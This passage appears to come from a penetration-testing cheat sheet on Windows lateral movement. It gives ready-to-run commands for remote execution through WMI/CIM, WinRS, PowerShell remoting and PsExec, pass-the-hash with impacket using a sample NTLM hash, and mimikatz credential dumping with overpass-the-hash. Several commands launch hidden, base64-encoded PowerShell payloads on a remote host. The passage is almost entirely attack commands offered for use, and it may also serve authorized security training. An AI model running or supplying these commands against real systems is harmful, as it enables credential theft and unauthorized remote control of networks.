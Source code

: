 ###### Execution

```cmd
PS C:\> $username = '<USERNAME>';
PS C:\> $password = '<PASSWORD>';
PS C:\> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
PS C:\> $options = New-CimSessionOption -Protocol DCOM
PS C:\> $session = New-Cimsession -ComputerName <RHOST> -Credential $credential -SessionOption $Options 
PS C:\> $command = 'powershell -nop -w hidden -e JAB<--- SNIP --->CkA';
PS C:\> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

#### Windows Remote Shell (WinRS)

##### Prerequisites

- User needs to be part of the Administrators or Remote Management Users group on the target host

##### Execution

```cmd
C:\> winrs -r:<RHOST> -u:<USERNAME> -p:<PASSWORD> "cmd /c hostname & whoami"
C:\> winrs -r:<RHOST> -u:<USERNAME> -p:<PASSWORD> "powershell -nop -w hidden -e JAB<--- SNIP --->CkA"
```

##### PowerShell

```cmd
PS C:\> $username = '<USERNAME>';
PS C:\> $password = '<PASSWORD>';
PS C:\> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
PS C:\> New-PSSession -ComputerName <RHOST> -Credential $credential
PS C:\> Enter-PSSession 1
```

#### PsExec

```cmd
PS C:\> .\PsExec64.exe -i \\<RHOST> -u <DOMAIN>\<USERNAME> -p <PASSWORD> cmd
```

#### Pass the Hash (PtH)

```console
$ impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@<RHOST>
```

#### Overpass the Hash

```cmd
PS C:\> .\mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::pth /user:<USERNAME> /domain:<DOMAIN> /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
PS C:\> klist
PS C:\> dir \\<RHOST>\<SHARE>
PS C:\> klist
```
